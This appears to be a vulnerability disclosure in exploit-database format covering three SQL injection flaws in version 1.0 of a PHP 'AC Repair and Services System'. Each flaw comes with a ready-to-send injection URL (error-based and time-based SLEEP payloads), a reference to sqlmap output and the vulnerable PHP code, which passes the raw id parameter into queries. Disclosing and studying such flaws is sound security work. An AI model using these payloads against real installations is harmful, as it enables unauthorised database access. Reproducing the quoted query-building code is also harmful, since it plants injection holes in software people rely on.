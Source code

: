 ### Exploit Title: AC Repair and Services System - multiple vulnerabilities

### Date: 2023-06/07

### Exploit Author: AnotherN

### Vendor Homepage: https://www.sourcecodester.com

### Software Link: https://www.sourcecodester.com/download-code?nid=16513&title=AC+Repair+and+Services+System+using+PHP+and+MySQL+Source+Code+Free+Download

### Version: 1.0

### Tested on: windows10 + phpstudy

# **1.SQL injection vulnerability in services\view.php**
---
## Sample request POC #1

```
http://php-acrss.com/?page=services/view&id=1%27%20OR%20(SELECT%206453%20FROM(SELECT%20COUNT(*),CONCAT(0x7176627871,(SELECT%20(ELT(6453=6453,1))),0x71786b7071,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27CImQ%27=%27CImQ
```
## Sqlmap running results #1

![blockchain](https://github.com/AnotherN/cv/raw/main/services-view.php.jpg "AC Repair and Services System")

## Related Codes services\view.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `service_list` where id = '{$_GET['id']}' and `status` = 1 ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("service ID is not valid."); location.replace("./?page=services")</script>';
	}
}else{
	echo '<script>alert("service ID is Required."); location.replace("./?page=services")</script>';
}
?>
```

# **2.SQL injection vulnerability in admin\user\manage_user.php**
---
## Sample request POC #2

```
http://php-acrss.com/admin/?page=user/manage_user&id=9%27%20AND%20(SELECT%201546%20FROM%20(SELECT(SLEEP(5)))IRFo)%20AND%20%27kGVj%27=%27kGVj
```
## Sqlmap running results #2

![blockchain](https://github.com/AnotherN/cv/raw/main/admin-user-manage_user.php.jpg "AC Repair and Services System")

## Related Codes admin\user\manage_user.php

```
<?php 
if(isset($_GET['id'])){
    $user = $conn->query("SELECT * FROM users where id ='{$_GET['id']}' ");
    foreach($user->fetch_array() as $k =>$v){
        $meta[$k] = $v;
    }
}
?>
```

# **3.SQL injection vulnerability in admin\inquiries\view_inquiry.php**
---
## Sample request POC #3

```
https://php-acrss.com/admin/?page=inquiries/view_inquiry&id=1%27%20AND%20(SELECT%204182%20FROM%20(SELECT(SLEEP(5)))XJkL)%20AND%20%27jDyU%27=%27jDyU
```
## Sqlmap running results #3

![blockchain](https://github.com/AnotherN/cv/raw/main/admin-inquiries-view_inquiry.php.jpg "AC Repair and Services System")

## Related Codes admin\inquiries\view_inquiry.php

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `inquiry_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
		$conn->query("UPDATE `inquiry_list` set `status` = 1 where `id` = '{$id}'");
    }else{
		echo '<script>alert("inquiry ID is not valid."); location.replace("./?page=inquiries")</script>';
	}
}else{
	echo '<script>alert("inquiry ID is Required."); location.replace("./?page=inquiries")</script>';
}
?>
```
